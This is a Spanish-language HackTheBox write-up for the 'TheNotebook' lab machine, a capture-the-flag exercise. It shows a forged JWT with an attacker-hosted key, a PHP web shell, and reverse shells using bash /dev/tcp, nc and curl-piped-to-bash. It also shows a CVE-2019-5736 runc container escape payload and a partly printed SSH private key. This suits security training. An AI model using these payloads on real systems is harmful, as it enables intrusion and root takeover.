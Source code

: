 ```yaml
---
layout      : post
title       : "HackTheBox - TheNotebook"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320banner.png
category    : [ htb ]
tags        : [ docker, JWT, ssh-keys, runc ]
---
```

Máquina Linux nivel medio. Exploraremos el mundo de los **JSON Web Tokens** para ingresar a una web con permisos administrativos. Jugaremos con llaves **SSH** y romperemos el siempre fiel **Docker** mediante un **CVE** que permite sobreescribir el contenido del binario **/bin/sh** con lo que queramos.

![320thenotebookHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320thenotebookHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [mostwanted002](https://www.hackthebox.eu/profile/120514).

Se ave cina...

Hola, nos enfrentaremos a un inicio muy lindo. Encontraremos un sitio web que nos permite guardar nuestras notas y nada más :O Pero echándole ojo a la cookie veremos algo interesante, es generada mediante `JSON Web Tokens` con una estructura peculiar, la llave con la que lo hace esta siendo llamada mediante una **URL** y cada usuario lleva indicado si es o no admin, aprovecharemos esto para crear un nuevo token que llame la llave de nuestro servidor y también otorgándole permisos a nuestro usuario de ser admin. Esto para finalmente lograr subir archivos en el **Admin Panel** yyy claramente subiremos una Web Shell para obtener una sesión en la máquina como `www-data`.

Cree un script para automatizar todo este proceso y obtener **RCE** en la terminal, échenle un ojazo:

* [RCE_phpfile.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/thenotebook/RCE_phpfile.py).

Enumerando nos toparemos con las llaves `SSH` del usuario `noah`, usaremos su llave privada para obtener una sesión en la máquina sin necesitar la contraseña.

Validando los permisos de administrador que tenemos sobre el sistema, nos daremos cuenta de que podemos ejecutar un contenedor con `Docker`, validando la versión del propio **Docker** y buscando vulnerabilidades relacionadas, encontraremos una que nos permite modificar el contenido del binario `runC` (que se ejecuta siempre que llamemos a **Docker**) y que al mismo tiempo modifica el binario `/bin/sh` con nuestro **payload**, para una vez llamemos una Shell con **/bin/sh** dentro del contenedor se ejecute el payload... Usaremos esto para conseguir una Shell como el usuario `root`, a darleeeee.

...

#### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Vulns conocidas, le cuesta mucho llegar a ser real (pero lo intenta).

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Nuestro camino a donde gloria:

1. [Enumeración](#enumeracion).
2. [Explotación](#explotacion).
3. [Movimiento Lateral **noah**](#movimiento-lateral-noah).
4. [Escalada de privilegios](#escalada-de-privilegios).

...

## Enumeración [#](#enumeracion) {#enumeracion}

Inicialmente haremos un escaneo de puertos para saber que servicios esta ejecutando la máquina:

```bash
❭ nmap -p- --open -v 10.10.10.230 -oG initScan
```

| Parámetro  | Descripción   |
| -----------|:------------- |
| -p-        | Escanea todos los 65535.                                                                                  |
| --open     | Solo los puertos que están abiertos.                                                                      |
| -v         | Permite ver en consola lo que va encontrando.                                                             |
| -oG        | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

```bash
❭ cat initScan 
# Nmap 7.80 scan initiated Mon Mar 15 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.230
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.230 ()   Status: Up
Host: 10.10.10.230 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Mon Mar 15 25:25:25 2021 -- 1 IP address (1 host up) scanned in 112.60 seconds
```

A ver, que tenemos...

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://es.wikipedia.org/wiki/Secure_Shell)**: Acceso a un servidor remoto por medio de un canal seguro. |
| 80     | **[HTTP](https://es.wikipedia.org/wiki/Protocolo_de_transferencia_de_hipertexto)**: Servidor web.                |

Ahora hagamos un escaneo de scripts y versiones con base en cada servicio (puerto) encontrado, así validamos a profundidad cada uno:

```bash
❭ nmap -p 22,80 -sC -sV 10.10.10.230 -oN portScan
```

| Parámetro | Descripción |
| ----------|:----------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

```bash
❭ cat portScan 
# Nmap 7.80 scan initiated Mon Mar 15 25:25:25 2021 as: nmap -p 22,80 -sC -sV -oN portScan 10.10.10.230
Nmap scan report for 10.10.10.230
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 15 25:25:25 2021 -- 1 IP address (1 host up) scanned in 11.66 seconds
```

Obtenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80     | HTTP     | nginx 1.14.0                    |

A darle a ver por donde podemos entrar.

...

### Puerto 80 [×](#puerto-80) {#puerto-80}

![320page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80.png)

Un lugar para guardar mis notas o pensamientos... Podemos registrarnos e ingresar al sitio, después de este paso, en el dashboard tenemos:

![320page80_dashboard](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_dashboard.png)

Hagamos caso y veamos las notas: (disculparán el montón de pruebas)

![320page80_notes](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_notes.png)

Algo raro que note fue la URL, no sé, poco usual...

---

### 🌋 ¡Entramos en un Rabbit hole, cuidaoooo!

Después de un rato enumerando, probando, jugando con la URL, etc. Nada. Haciendo fuzz encontramos un directorio llamado `/admin`:

```bash
❭ dirsearch.py -u http://10.10.10.230 -q
403 -    9B  - http://10.10.10.230/admin
200 -    1KB - http://10.10.10.230/login
302 -  209B  - http://10.10.10.230/logout  ->  http://10.10.10.230/
200 -    1KB - http://10.10.10.230/register
```

Pero tenemos un código de estado `403` que nos indica la prohibición completa hacia ese recurso :P Pero jugando con ese mismo recurso encontramos otros directorios:

> [Status code **403 Forbidden**](https://mediatemple.net/community/products/dv/204644980/why-am-i-seeing-a-403-forbidden-error-message).

```bash
❭ dirsearch.py -u http://10.10.10.230/admin -w /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt -q
403 -    9B  - http://10.10.10.230/admin/upload
200 -    3KB - http://10.10.10.230/admin/notes
```

Curioso, tenemos prohibido el acceso al recurso `/a, pero no al `/admin/notes`, veamos si podemos obtener algo de ahí:

![320page80_admin_notes](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_notes.png)

Jmm, intentando agregar notas siempre obtenemos "`Internal Server Error`", peeero si nos fijamos en la URL, a veces cambia como si hiciera la inserción de la nota, veamos un ejemplo rápidamente:

![320page80_admin_notes_add_preview](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_notes_add_preview.png)

![320page80_admin_notes_add_URL](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_notes_add_URL.png)

En la URL se agrega un numero y si validamos si se creó la nota:

![320page80_admin_notes_created](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_notes_created.png)

Y si, se crea... Pero no logre hacer nada con esto :P

---

### 🗻 Salimos del Rabbit hole

Dando vueltas y revisando cositas, nos damos cuenta de algo lindo en nuestra cookie: (podemos verla de varias formas, pero como lo divide el navegador esta bien para que se entienda mejor lo que haremos)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_cookie.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Es un formato que había usado en alguna ocasión y de una me acordé de que trataba (también por el inicio de la cadena (`ey`, que en `base64` es `{"` (o sea el inicio de un JSON e.e))... 

[JSON Web Tokens](https://jwt.io/introduction), que sirven para transmitir información mediante objetos `JSON` de manera segura, esto gracias a que son firmados digitalmente con llaves privadas o públicas.

* [Qué es **JSON Token** y como funciona](https://openwebinars.net/blog/que-es-json-web-token-y-como-funciona/).

Entonces, podemos usar la herramienta [jwt.io](https://jwt.io/) para jugar con estos tokens, así que, tomamos nuestra cookie `auth` y la pegamos a la izquierda:

![320google_jwt_original_output](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_original_output.png)

Algo lindo de esta herramienta es que nos separa por colores (y puntos) las partes del token (cada parte del array que nos mostró el navegador). Cada apartado del token esta en `base64`, la página nos lo decodea y a la derecha tenemos el resultado... (Todo esto podemos cambiarlo, pero antes veamos que hay en cada apartado)

**Header**:

Vemos el tipo de token y el tipo de algoritmo usado yyyyy podemos deducir que esta tomando la llave privada servida en el puerto `7070` del localhost llamada `privKey.key`.

**Payload (Data)**:

Tenemos info del usuario y un campo extraño que hace alusión a algo sobre el administrador y en nuestro caso esta apagado... Interesante.

**Verify signature**:

Acá va la llave privada del host.

...

## Explotación [#](#explotacion) {#explotacion}

Bien, como podemos aprovecharnos de esto...

Sabemos que esta usando una URL para leer la llave privada que usa contra el `JWT`, entonces:

1. Generaremos una llave privada.
2. hostearemos un servidor web. 
3. Y en el **header** pondremos nuestra URL llamando la llave, esto para que la web tome nuestra llave y podamos modificar el token.

En el apartado **payload (data)** aprovecharemos el ítem que habla del `admin` para alterarlo a `true` y ver si nos asignan como administradores del sistema de notas.

Y finalmente agregaremos nuestra llave privada en **verify signature**.

Démosle. Generemos la llave privada, me guie de este [recurso](https://serverfault.com/questions/224122/what-is-crt-and-key-files-and-how-to-generate-them#answer-224127):

**Header:**

```bash
❭ openssl genrsa 2048 > palaKeypa.key
# pero despues de generarla, copiarla y pegarla en la web
# vemos que es más pequeña que la que ya estaba originalmetn en nusetro token,
# asi que le modificamos el tamaño al doble
```

```bash
❭ openssl genrsa 4096 > palaKeypa.key
Generating RSA private key, 4096 bit long modulus (2 primes)
.................................................++++
......................................................................................++++
e is 65537 (0x010001)
❭ chmod 400 palaKeypa.key
```

Entonces, ahora modificamos el **header**: (se puede hacer en la Shell o en la web, para que sea más legible se las mostraré en la web)

```json
{"typ": "JWT","alg": "RS256","kid": "http://10.10.14.194:8000/palaKeypa.key"}
```

Lo pasamos a `base64`:

```bash
❭ echo '{"typ": "JWT","alg": "RS256","kid": "http://10.10.14.194:8000/palaKeypa.key"}' | base64 
eyJ0eXAiOiAiSldUIiwiYWxnIjogIlJTMjU2Iiwia2lkIjogImh0dHA6Ly8xMC4xMC4xNC4xOTQ6
ODAwMC9wYWxhS2V5cGEua2V5In0K
```

Y pegamos en la web (pegado y sin `=`)

![320google_jwt_headerPART](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_headerPART.png)

**Payload (data):**

```json
{"username": "lanz","email": "lanz@lanz.htb","admin_cap": true}
```

```bash
❭ echo '{"username": "lanz","email": "lanz@lanz.htb","admin_cap": true}' | base64
eyJ1c2VybmFtZSI6ICJsYW56IiwiZW1haWwiOiAibGFuekBsYW56Lmh0YiIsImFkbWluX2NhcCI6
IHRydWV9Cg==
```

![320google_jwt_payloadPART](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_payloadPART.png)

**Verify signature:**

Copiamos la llave que generamos (con todo y `--`) y la pegamos en la web en esta parte:

![320google_jwt_signPART](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_signPART.png)

Y listos, tenemos nuestro token generado. Ahora la prueba de fuego.

Hosteamos el servidor web:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Tomamos el token, editamos nuestra cookie `auth` por la nueva y simplemente refrescamos la página. Yyyyyyyyyy obtenemos:

```bash
...
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.230 - - [15/Mar/2021 25:25:25] "GET /palaKeypa.key HTTP/1.1" 200 -
```

![320page80_weareasadminLOL](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_weareasadminLOL.png)

¿Ves algo distinto? e.e (Tamos dentro como **admin** fathEEEEEEer, muy lindo esto)

Veamos el nuevo apartado `Admin Panel`:

![320page80_admin_panel](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel.png)

![320page80_admin_panel_uploadFiles](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel_uploadFiles.png)

Opa, podemos subir archivos y parece que de cualquier tipo, probemos a subir de una un archivo `.php` para generar ejecución remota de comandos. Veamos si nos da algún problema...

```bash
❭ cat toRiCE.php 
<?php $coma=shell_exec($_GET['xmd']); echo $coma; ?>
```

El script simplemente indica: que recibirá una petición mediante el método `GET` y la guardara en la variable `xmd`, esta a su vez, hará una petición al sistema mediante `shell_exec` y el resultado del comando ejecutado se guardará en la variable `$coma`, al final simplemente mostramos ese contenido. Subámoslo, seleccionamos el archivo y damos clic en `Save`, nos devuelve:

![320page80_admin_panel_up_RCEfile](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel_up_RCEfile.png)

Veamos el archivo que se subió y probemos de una vez por ejemplo, ver que usuario somos y el hostname:

![320page80_admin_panel_RCE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel_RCE.png)

Perfecto, tenemos ejecución remota de comandos, entablémonos una Reverse Shell...

(El archivo es borrado rápidamente así que debemos ser igual o más rápidos)

Probando y fallando podemos generar un archivo `.sh` que contenga lo que queramos ejecutar en el sistema y simplemente como comando en la web le decimos que haga un `cURL` hacia nuestro script y que a su vez interprete y ejecute el contenido:

```bash
❭ cat rev.sh 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.194/4433 0>&1"
#rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1 | nc 10.10.14.194 4433 >/tmp/f
```

Colocamos este archivo en la ruta en que tenemos el servidor de `Python` activo, así evitamos servir otro puerto :P 

Nos ponemos en escucha con `netcat`:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Y lanzamos como `payload` para validar que tenemos comunicación y ve nuestro código:

```html
http://10.10.10.230/f34242c373ba88e18f73fd2e0eccd648.php?xmd=curl http://10.10.14.194:8000/rev.sh
```

Y simplemente le agregamos `| bash` para que interprete el contenido del archivo y lo ejecute en el sistema:

```html
http://10.10.10.230/f34242c373ba88e18f73fd2e0eccd648.php?xmd=curl http://10.10.14.194:8000/rev.sh | bash
```

YYYYYYYyyyyYye.e:

![320bash_revSH_www](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320bash_revSH_www.png)

Tamos dentro de la máquina, peeeerfectowowowo.

...

Es un poco MEHH el estar creando el token, modificando la cookie y todo eso manualmente, así que aprovechemos la oportunidad para automatizar toooodo y obtener ejecución de comandos simplemente pasándole el comando que queremos ejecutar a un **script**:

* [RCE_phpfile.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/thenotebook/RCE_phpfile.py).

Ahora sí, sigamos.

...

## Movimiento lateral www-data -> noah [#](#movimiento-lateral-noah) {#movimiento-lateral-noah}

Enumerando el directorio `/var/backups` encontramos un archivo algo llamativo:

```bash
www-data@thenotebook:/var/backups$ ls -la
total 60
drwxr-xr-x  2 root root  4096 Mar 22 08:20 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33252 Feb 24 08:53 apt.extended_states.0
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.1.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.2.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
```

Copiemos el archivo comprimido e intentemos ver su contenido:

```bash
www-data@thenotebook:/var/backups$ cp home.tar.gz /dev/shm/
www-data@thenotebook:/var/backups$ cd !$
cd /dev/shm/
www-data@thenotebook:/dev/shm$ ls
home.tar.gz
www-data@thenotebook:/dev/shm$ gzip -d home.tar.gz 
www-data@thenotebook:/dev/shm$ ls
home.tar
www-data@thenotebook:/dev/shm$ tar xvf home.tar 
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```

Opa, el backup del `/home` de un usuario llamado `noah` (efectivamente en la máquina existe), tenemos un par de llaves `SSH`, copiémonos el contenido de la llave privada `(id_rsa)` y creémonos un archivo con su contenido en nuestra máquina, esto para entrar por medio de `SSH` sin tener que ingresar contraseña:

* [Info SSH keys (Español)](https://wiki.archlinux.org/title/SSH_keys_(Espa%C3%B1ol)).

---

```bash
❭ cat key_noah 
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
rLymqVzxjEbLUkIgjZNW49ABwi2pDfzoXnij9JK8s3ijIo+w/0RqHzAfgS3Y7t+b
...
❭ chmod 400 key_noah
```

Y ejecutamos hacia la máquina:

```bash
❭ ssh noah@10.10.10.230 -i key_noah 
load pubkey "key_noah": invalid format
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-135-generic x86_64)
...
```

![320bash_SSH_noah](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320bash_SSH_noah.png)

Nice, somos `noah` y tenemos acceso a la flag `user.txt`.

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Si vemos los permisos que tenemos como `root`, encontramos:

```bash
noah@thenotebook:/dev/shm$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

El usuario `noah` puede ejecutar comandos inicialmente en el contenedor `webapp-dev01` y dado el caso en todos los contenedores que empiecen con `webapp-dev01`, veamos que hay dentro, ejecutemos una `bash` en el container:

```bash
noah@thenotebook:/dev/shm$ sudo /usr/bin/docker exec -it webapp-dev01 bash
root@c8d1914f59cd:/opt/webapp# ls -la
total 52
drwxr-xr-x 1 root root 4096 Feb 12 07:30 .
drwxr-xr-x 1 root root 4096 Feb 12 07:30 ..
drwxr-xr-x 1 root root 4096 Feb 12 07:30 __pycache__
drwxr-xr-x 3 root root 4096 Nov 18 13:27 admin
-rw-r--r-- 1 root root 3303 Nov 16 19:43 create_db.py
-rw-r--r-- 1 root root 9517 Feb 11 15:00 main.py
-rw------- 1 root root 3247 Feb 11 15:09 privKey.key
-rw-r--r-- 1 root root   78 Feb 12 07:12 requirements.txt
drwxr-xr-x 3 root root 4096 Nov 19 10:57 static
drwxr-xr-x 2 root root 4096 Nov 18 13:47 templates
-rw-r--r-- 1 root root   20 Nov 20 09:18 webapp.tar.gz
```

Bien, tenemos la estructura y todos los archivos que usa para el servidor web de las notas... Pero enumerando no encontramos nada relevante, así que regresemos y volvamos a enumerar...

Si vemos la versión actual de Docker obtenemos la `18.06.0-ce`:

```bash
noah@thenotebook:~$ docker -v
Docker version 18.06.0-ce, build 0ffa825
```

Buscando vulnerabilidades sobre ella, encontramos el CVE [CVE-2019-5736](https://www.cvedetails.com/cve/CVE-2019-5736/):

* [**Docker 18.06.0-ce** Vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-13534/product_id-28125/Docker-Docker.html).

![320google_CVE_docker18-16-0-ce](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_CVE_docker18-16-0-ce.png)

Nos indica que el binario `runc` (que se ejecuta cuando <<ejecutamos>> `Docker`) es vulnerable a ser sobreescrito y por consiguiente indicarle comandos para que sean ejecutados como el usuario `root` en la máquina host :O

> `runC`: ["command-line tool for spawning and running containers"](https://opensource.com/life/16/8/runc-little-container-engine-could).

Nice, busquemos referencias de exploits a ver cuál podemos usar:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_CVE_docker18-16-0-ce_githubLIST.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Tenemos varios, dándole unos ojazos, el más sencillo de entender es el de [Frichetten](https://github.com/Frichetten/CVE-2019-5736-PoC), esta hecho en `.go` y solo debemos mover un archivo al sistema, metámosle candela:

* [https://github.com/Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC).

Lo clonamos en nuestra máquina y vemos el archivo `main.go`, explorándolo simplemente debemos modificar la variable `payload`, como prueba haré que nos envíe el resultado del comando `hostname` a nuestro listener en `nc`:

```go
...
// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n hostname | nc 10.10.14.194 4433"
...
```

Bajando un poco (y leyendo el repo) nos indica lo que hará. Tomará el binario `/bin/sh` y lo sobreescribirá para que una vez sea ejecutado `Docker` este llame el binario `runC` y este a su vez sobreescriba el contenido del binario `/bin/sh` para que se transforme en el contenido de nuestra variable `payload` (o sea el comando `hostname` en este caso). Pero veremos la ejecución del payload una vez hagamos el llamado del binario `/bin/sh` (que en esta parte ya estaría modificado) en el contenedor (para esto necesitaremos otra Shell con el usuario `noah`, para primero ejecutar el binario `main` y por segundo ejecutar la explotación (el binario `/bin/sh`)).

Listo, guardamos y creamos el binario:

```bash
❭ go build main.go #Genera el binario "main"
❭ ls
main  main.go  README.md  screenshots
```

Listos, ahora podemos subirlo al contenedor, creemos un servidor en `Python` y de paso pongámonos en escucha con `nc`:

```py
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

En la máquina víctima indicamos:

```bash
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 bash
root@c6d778ee6b03:/opt/webapp# cd /dev/shm
# Descargamos el binario a la máquina
root@c6d778ee6b03:/dev/shm# wget http://10.10.14.194:8000/main
...
root@c6d778ee6b03:/dev/shm# ls -la
total 2220
drwxrwxrwt 2 root root      60 Mar 16 19:58 .
drwxr-xr-x 5 root root     360 Mar 16 19:16 ..
-rw-r--r-- 1 root root 2269904 Mar 16 19:42 main
# Damos permisos de ejecución
root@c6d778ee6b03:/dev/shm# chmod +x main
root@c6d778ee6b03:/dev/shm# ls -la
total 2220
drwxrwxrwt 2 root root      60 Mar 16 19:58 .
drwxr-xr-x 5 root root     360 Mar 16 19:16 ..
-rwxr-xr-x 1 root root 2269904 Mar 16 19:42 main
```

Acá estuve perdido un rato, ya que no lograba ejecutarlo:

```bash
root@c6d778ee6b03:/dev/shm# ./main
bash: ./main: Permission denied
root@c6d778ee6b03:/dev/shm# bash main 
main: main: cannot execute binary file
...
```

Dándole vueltas, desistí de ese script y usé otros repositorios, pero no conseguía ejecutar NADA (¿ya puedes imaginar por qué?)...

Pues resulta que si hacemos el mismo procedimiento, pero en el directorio  `/tmp` o incluso en el directorio `/opt/webapp`, ahí si me permite ejecutarlo 🙃 

Claramente por permisos que no entiendo, pero pues X:

```bash
root@c6d778ee6b03:/dev/shm# mv main /tmp/
root@c6d778ee6b03:/dev/shm# cd /tmp/
root@c6d778ee6b03:/tmp# ls -la
total 2264
drwxrwxrwt 1 root root    4096 Mar 16 20:05 .
drwxr-xr-x 1 root root    4096 Mar 16 19:16 ..
-rwxr-xr-x 1 root root 2269904 Mar 16 19:42 main
-rw-r--r-- 1 root root      78 Feb 12 07:12 requirements.txt
-rw-r--r-- 1 root root   32768 Feb 12 07:30 webapp.db
```

Ejecutamos:

```bash
root@c6d778ee6b03:/tmp# ./main 
[+] Overwritten /bin/sh successfully
```

Y se queda a la espera de la ejecución del binario `/bin/sh`, así que abrimos la otra sesión con `SSH` y volvemos a ejecutar el archivo `main`, pero ahora en la nueva Shell indicamos:

```bash
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
```

Y en la sesión donde esta corriendo el binario `main` obtenemos:

```bash
root@867e71dd120c:/tmp# ./main 
[+] Overwritten /bin/sh successfully
[+] Found the PID: 66
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc0000aa8a0}
root@867e71dd120c:/tmp# 
```

Yyyy en nuestro listener:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
10.10.10.230: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.194] from (UNKNOWN) [10.10.10.230] 51878
thenotebook
```

Perfectoooo, estamos hablando con el `host`, entablémonos una Reverse Shell:

```go
...
var payload = "#!/bin/bash \n bash -c 'bash -i >& /dev/tcp/10.10.14.194/4433 0>&1 &'"
...
```

1. Compilamos.
2. Subimos binario `main` al contenedor.
3. Abrimos otra sesión `SSH`.
4. Ejecutamos el binario `main`.
5. Ejecutamos el binario `/bin/sh` en la nueva sesión.
6. Obtenemos nuestra Reverse Sheeeeeeeeeeeeeeell.

![320bash_revSH_root](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320bash_revSH_root.png)

Perfectooooooooooooooooooooooooooo, hacemos tratamiento de la `TTY` y procedemos a ver las flags:

* [Savitar te explica el tratamiento de la **TTY**](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689).

![320flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320flags.png)

...

Linda máquina, me fascino el inicio, por lo tanto me cree un script para que haga toooodo el proceso de cambiar la cookie, subir el archivo yyy ejecutar los comandos (:

* [**RCE** mediante el archivo **.php**](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/thenotebook/RCE_phpfile.py)

Muy loco el tema de `Docker` y `runc`, y casi muero intentando ejecutar el binario en esa ruta :( Perooo bueno, se solucionó.

Muchas gracias por pasarse y leerse este montón de texto :P Y nada, a seguir rompiendo todo (: